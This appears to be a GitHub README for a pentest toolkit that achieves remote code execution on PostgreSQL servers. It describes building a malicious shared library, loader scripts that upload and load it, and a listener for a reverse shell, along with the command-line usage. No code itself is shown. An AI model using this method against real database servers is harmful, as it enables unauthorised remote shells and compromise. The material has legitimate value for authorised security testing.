 # psql_UDF

This repo includes 4 files:

pg_exec.c  (file for creating .so, you should use docker with a compatible version of postgresql)

psql_so_loader_auto.py (script to load .so lib on the postgresql server if you have rights)

psql_so_loader_auto_v2.py (the same script but with socket server for reverse shell)

server_for_pg.py (just alone socket server for reverse shell)




Thanks a lot those people:

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql

https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md

https://gist.github.com/0xabe-io/916cf3af33d1c0592a90

https://xakep.ru/2020/04/14/python-reverse-shell/#toc03.1




USAGE:

python psql_so_loader_auto_v2.py [-h] [-p PASSWORD] [-u USERNAME] [-d DATABASE] [-H HOSTNAME] [-P PORT] [-rh RHOST] [-rp RPORT] -f FILENAME

This is parser arguments

options:
  -h, --help            show this help message and exit
  -p PASSWORD, --password PASSWORD
                        pass for postgresql
  -u USERNAME, --username USERNAME
                        user for postgresql
  -d DATABASE, --database DATABASE
                        database for postgresql
  -H HOSTNAME, --hostname HOSTNAME
                        hostname or IP for postgresql
  -P PORT, --port PORT  database for postgresql
  -rh RHOST, --rhost RHOST
                        ip of host listen reverse
  -rp RPORT, --rport RPORT
                        port of host listen reverse
  -f FILENAME, --filename FILENAME
                        file name of lib.so

